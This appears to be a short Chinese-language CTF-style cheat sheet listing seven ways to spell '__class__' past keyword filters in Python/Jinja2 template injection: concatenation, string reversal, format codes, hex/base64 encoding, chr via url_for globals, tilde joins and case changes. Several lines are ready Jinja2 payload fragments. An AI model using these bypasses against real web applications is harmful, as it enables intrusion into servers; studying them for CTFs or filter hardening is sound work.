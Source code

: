 
**1、拼接**


"cla"+"ss"


**2、反转**


"__ssalc__"[::-1]


**3.ascii转换**


```plain
"{0:c}".format(97)='a'"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
Plain Text
```



**4、编码绕过**


```plain
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"对于python2的话，还可以利用base64进行绕过（所以我没记错）"__class__"==("X19jbGFzc19f").decode("base64")
Plain Text
```



**5.利用chr函数**


因为我们没法直接使用chr函数，所以需要通过__builtins__找到他


```plain
{% set chr=url_for.__globals__['__builtins__'].chr %}{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
Plain Text
```



**6、在jinja2里面可以利用~进行拼接**


```plain
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
Plain Text
```



**7、大小写转换**


前提是过滤的只是小写


```plain
""["__CLASS__".lower()]
Plain Text
```
